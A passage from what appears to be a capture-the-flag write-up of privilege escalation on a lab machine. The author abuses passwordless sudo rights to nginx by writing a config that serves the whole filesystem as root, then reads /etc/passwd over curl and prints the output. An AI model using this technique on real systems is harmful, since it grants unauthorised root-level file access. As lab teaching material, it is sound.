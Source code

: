 ## Privilege Escalation
To elevate my privilege from user to root, each time I run `sudo -l` first.
```
$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
``` 
The activemq user can run `nginx`  without password, interessting we will exploit this.
**File Read**
I will create a nginx server events
Ressources for that : https://www.nginx.com/resources/wiki/start/topics/examples/full/
Here is the event that i will use.
```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
For that i will write it on `/dev/shm/file.conf`.
I’ll start the webserver by running `nginx` with `-c` and the full path to this file.
```terminal
$ sudo /usr/sbin/nginx -c /dev/shm/file.conf
```
Now i will just query the webserver on the port `1337` which was specified in the config file. and also read sensitive file on it
```terminal
$ curl http://localhost:1337/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
```